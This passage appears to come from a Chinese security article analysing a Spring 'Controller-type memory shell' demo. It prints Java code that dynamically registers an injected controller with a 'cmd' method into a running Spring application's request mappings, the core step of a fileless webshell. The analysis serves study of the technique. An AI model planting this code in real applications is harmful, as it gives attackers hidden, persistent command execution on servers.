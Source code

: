[![](assets/1708482732-973771d974a55002d2d7bd17ef60ee70.jpeg)](https://xzfile.aliyuncs.com/media/upload/picture/20240211003501-56355c96-c832-1.jpeg)

### 4.1.2 Spring Controller 型内存马 demo 代码分析

代码的关键在于如下这几行：

```bash
WebApplicationContext context = (WebApplicationContext) RequestContextHolder.currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
RequestMappingHandlerMapping requestMappingHandlerMapping = context.getBean(RequestMappingHandlerMapping.class);
Method method = InjectedController.class.getMethod("cmd");
PatternsRequestCondition urlPattern = new PatternsRequestCondition(controllerName);
RequestMethodsRequestCondition condition = new RequestMethodsRequestCondition();
RequestMappingInfo info = new RequestMappingInfo(urlPattern, condition, null, null, null, null, null);
InjectedController injectedController = new InjectedController();
requestMappingHandlerMapping.registerMapping(info, injectedController, method);
```
